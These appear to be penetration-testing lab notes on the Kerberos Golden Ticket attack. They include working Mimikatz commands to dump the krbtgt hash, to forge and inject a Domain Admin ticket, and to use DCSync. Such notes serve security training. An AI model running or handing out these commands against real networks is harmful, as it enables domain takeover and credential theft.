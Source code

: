## **Golden Ticket**

A golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket.

Since user account validation is not done by Domain Controller(KDC service) until TGT is older than 20 minutes, we can use even deleted/revoked accounts.

The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine.

Password change has no effect on this attack.

Execute mimikatz on DC as DA to get krbtgt hash
- Invoke-Mimikatz -Command '"lsadump::lsa /patch"' –Computername dcorp-dc

On any machine
- Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges:
- Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

Using the DCSync option needs no code execution (no need to run Invoke-Mimikatz) on the target DC.
